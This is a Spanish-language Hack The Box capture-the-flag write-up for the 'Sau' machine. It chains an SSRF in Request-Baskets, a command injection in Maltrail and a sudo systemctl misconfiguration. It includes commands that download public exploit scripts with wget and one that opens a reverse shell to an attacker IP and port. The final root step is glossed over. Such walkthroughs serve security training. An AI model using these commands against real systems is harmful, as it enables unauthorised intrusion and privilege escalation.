 # Hack The Box - Sau Writeup

## Introducción

**Sau** es una máquina de Hack The Box que requiere explotar múltiples vulnerabilidades, incluyendo SSRF, RCE y escalada de privilegios mediante un mal uso de configuraciones de `sudo`. A continuación, detallo el proceso para comprometer esta máquina.

---

## Paso 1: Reconocimiento inicial

Comenzamos realizando un escaneo completo de puertos utilizando `nmap` para identificar servicios activos.

```bash
nmap -p- -sV -T4 10.10.11.224 -v -v10 -sT --min-rate 5000
```

**Resultados del escaneo:**

```plaintext
PORT      STATE    SERVICE    REASON      VERSION
22/tcp    open     ssh        syn-ack     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp    filtered http       no-response
8338/tcp  filtered unknown    no-response
55555/tcp open     unknown    syn-ack
```

El puerto 55555 parece tener un servicio interesante. Investigamos más a fondo.

---

## Paso 2: Identificación del servicio Request-Baskets

Al acceder al servicio en `http://10.10.11.224:55555/web`, encontramos una interfaz que permite crear "baskets". Además, en la parte inferior, se muestra que está utilizando **Request-Baskets v1.2.1**.

**Investigación de vulnerabilidades:**
Realizamos una búsqueda de posibles vulnerabilidades y encontramos **CVE-2023-27163**, una vulnerabilidad de **Server-Side Request Forgery (SSRF)** que afecta esta versión de Request-Baskets.

---

## Paso 3: Explotación de SSRF

Utilizamos un exploit público disponible para explotar esta vulnerabilidad.

**Descarga del exploit:**

```bash
wget https://raw.githubusercontent.com/mathias-mrsn/CVE-2023-27163/master/exploit.py
```

**Ejecución del exploit:**
El exploit permite redirigir peticiones del puerto 55555 hacia el puerto 80 filtrado.

```bash
python3 exploit.py http://10.10.11.224:55555 http://127.0.0.1:80
```

**Resultado:**

```plaintext
Exploit successfully executed.
Any request sent to http://10.10.11.224:55555/lmgjcn will now be forwarded to the service on http://127.0.0.1:80.
```

Ahora, accedemos al basket generado en `http://10.10.11.224:55555/lmgjcn`, lo que nos redirige al servicio en el puerto 80.

---

## Paso 4: Identificación del servicio Maltrail

En el puerto 80 encontramos una página básica con información de que está utilizando **Maltrail v0.53**.

**Investigación de vulnerabilidades:**
Identificamos una vulnerabilidad de **Command Injection (RCE)** en esta versión. Utilizamos un exploit público para aprovecharla.

---

## Paso 5: Explotación de RCE en Maltrail

**Descarga del exploit:**

```bash
wget https://raw.githubusercontent.com/spookier/Maltrail-v0.53-Exploit/master/exploit1.py
```

**Ejecución del exploit:**
Lanzamos el exploit para obtener una shell reversa.

```bash
python3 exploit1.py 10.10.14.3 4444 http://10.10.11.224:55555/lmgjcn
```

**Resultado:**

```plaintext
Shell obtained.
```

Con esto, logramos acceder al sistema como el usuario `puma`.

---

## Paso 6: Escalada de privilegios

Una vez dentro del sistema, revisamos permisos de `sudo` disponibles.

**Comando utilizado:**

```bash
sudo -l
```

**Resultado:**

```plaintext
User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Este permiso nos permite abusar de `systemctl` para ejecutar comandos como root.

**Explotación con GTFOBins:**
Utilizamos GTFOBins para encontrar una técnica de escalada de privilegios.

```bash
sudo /usr/bin/systemctl status trail.service
```

Esto nos proporciona acceso como root.

---

## Conclusión

En esta máquina, explotamos varias vulnerabilidades clave:

- **SSRF** en Request-Baskets para acceder a servicios internos.
- **RCE** en Maltrail para obtener una shell.
- Configuraciones incorrectas de `sudo` para escalar privilegios a root.

¡Root conseguido!
